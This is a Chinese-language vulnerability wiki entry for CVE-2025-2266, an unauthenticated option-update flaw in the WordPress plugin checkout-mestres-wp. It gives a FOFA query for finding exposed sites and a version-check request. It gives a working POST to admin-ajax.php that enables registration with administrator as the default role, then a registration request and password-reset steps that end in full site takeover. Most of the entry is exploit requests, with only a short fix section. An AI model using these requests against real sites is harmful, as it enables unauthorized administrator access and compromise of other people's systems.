




#  wordPress-CVE-2025-2266-未授权任意选项更新

# 漏洞描述

wordPress-CVE-2025-2266-未授权任意选项更新漏洞，修改新增逻辑权限可进行任意用户注册。注册完成后利用丢失密码功能进行系统接管。

# 影响版本

版本号只有在8.6.5/8.7.5时存在问题

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="wp-content/plugins/checkout-mestres-wp/"

POC/EXP：检测版本

```
GET /wp-content/plugins/checkout-mestres-wp/readme.txt HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close


```




POC/EXP：修改新增逻辑权限。只有出现sucesso时候为成功

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

action=cwmpUpdateOptions&data=users_can_register%3D1%26default_role%3Dadministrator
```




POC/EXP：进行任意用户注册

```
POST /wp-login.php?action=register HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

user_login=hhhhh&user_email=111111@gmail.com
```




注册完成后需要下列操作后才能进行系统接管
1、访问登录页面
http://target.com/wordpress/wp-login.php

2、点击“丢失密码？
输入使用的电子邮件地址（例如111111@gmail.com
WordPress 将发送重置链接
3、设置密码并获得完全管理员访问权限
重置密码后




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
